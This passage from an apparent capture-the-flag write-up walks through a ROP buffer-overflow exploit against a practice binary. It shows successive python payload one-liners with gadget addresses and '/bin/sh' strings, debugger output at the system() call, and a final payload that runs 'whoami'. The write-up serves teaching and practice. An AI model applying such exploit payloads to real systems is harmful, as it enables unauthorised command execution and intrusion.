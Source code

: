 <p>Ok, let's put it together and see how it goes:</p>

{% highlight python %}
python -c 'print"A"*120 + 
"\x06\x12\x40\x00\x00\x00\x00\x00" + 
"\x6e\x11\x40\x00\x00\x00\x00\x00" + 
"\x6e\x11\x40\x00\x00\x00\x00\x00" + 
"\x6e\x11\x40\x00\x00\x00\x00\x00" + 
"\x52\x11\x40\x00\x00\x00\x00\x00" + 
"/bin/sh " + "C"*100' > custom5.txt
{% endhighlight %}

<p align="center">
<img src="{{ '/assets/htb-safe/custom5.PNG' | relative_url }}">
</p>

<p>Wait a minute, that doesn't look right... It seems when attempting to execute it is pulling the first 8 characters before the stack in addition to what is on the stack. Essentially bytes 112-120, or what we overwrite into <code>$rbp</code>. Ok we can work with that. Let's adjust the exploit.</p>

{% highlight python %}
python -c 'print "A"*112 + "/bin/sh " + 
"\x06\x12\x40\x00\x00\x00\x00\x00" + 
"\x6e\x11\x40\x00\x00\x00\x00\x00" + 
"\x6e\x11\x40\x00\x00\x00\x00\x00" + 
"\x6e\x11\x40\x00\x00\x00\x00\x00" + 
"\x52\x11\x40\x00\x00\x00\x00\x00" + 
"/bin/sh " + "C"*100' > custom6.txt
{% endhighlight %}

<p>This also didn't work. But knowing where to look we took a look at our <code>system()</code> call and see what <code>$rdi</code> looks like.</p>

{% highlight shell %}
system@plt (
   $rdi = 0x00007fffffffe1a8 → "/bin/sh /bin/sh CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC[...]",
   $rsi = 0x0000000000405260 → "What do you want me to echo back? AAAAAAAAAAAAAAAA[...]"
)
{% endhighlight %}

<p>Ok, we are calling <code>/bin/sh</code> properly. Now we need to replace that second instance with the command we want to run and also terminate the command to avoid chaining the rest of the stack. I forgot to terminate on the next attempt, however that irrelevant as I managed to get my test command executed! At this point I was over the moon.</p>

{% highlight python %}
python -c 'print "A"*112 + "/bin/sh;" + 
"\x06\x12\x40\x00\x00\x00\x00\x00" + 
"\x6e\x11\x40\x00\x00\x00\x00\x00" + 
"\x6e\x11\x40\x00\x00\x00\x00\x00" + 
"\x6e\x11\x40\x00\x00\x00\x00\x00" + 
"\x52\x11\x40\x00\x00\x00\x00\x00" + 
"/bin/sh whoami" + "C"*100' > custom9.txt
{% endhighlight %}
